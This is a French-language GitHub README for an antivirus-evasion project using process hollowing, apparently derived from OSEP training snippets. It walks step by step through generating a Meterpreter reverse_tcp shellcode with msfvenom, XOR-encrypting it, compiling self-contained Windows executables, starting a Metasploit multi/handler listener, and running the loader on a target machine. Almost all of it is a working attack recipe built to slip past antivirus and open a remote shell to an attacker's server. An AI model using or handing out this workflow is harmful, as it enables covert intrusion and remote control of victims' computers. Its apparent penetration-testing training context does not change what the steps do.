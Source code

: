 # Bypass-AV-ProcessHollowing



Ce projet est basé sur le dépôt Github de chvancooten :
https://github.com/chvancooten/OSEP-Code-Snippets





#Utilisation :

Générer un meterpreter Metasploit sous la forme d'un shellcode avec msfvenom :

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f csharp


Créer un nouveau projet DotNet dans Visual Studio Code :
  
dotnet new console

  
  

Remplacer le contenu de Program.cs par le contenu du fichier XorCipher.cs et remplacer le shellcode par celui généré avec msfvenom


  
  
Générer la solution sous la forme d'un fichier PE avec ses librairies embarquée :
  
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true


  
  
Exécuter le fichier compilé dans une invite de commande :
  
.\XorCipher.exe


  
  
Créer un second projet DotNet dans une autre instance de Visual Studio Code :
  
dotnet new console

  
  

Remplacer le contenu de Program.cs par le contenu du fichier ProcessHollowing.cs et remplacer le shellcode par celui généré avec XorCipher.exe

  
  

Générer la solution sous la forme d'un fichier PE avec ses librairies embarquée :
  
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true


  
  
Lancer un listener dans la console metasploit :
  
msfconsole
  
use multi/handler
  
set payload windows/x64/meterpreter/reverse_tcp
  
set lhost <SERVER>
  
set lport <PORT>
  
exploit
  


  
 
Exécuter le fichier ProcessHollowing.exe sur le poste cible puis savourer un délicieux cookie aux pépites de chocolat :)
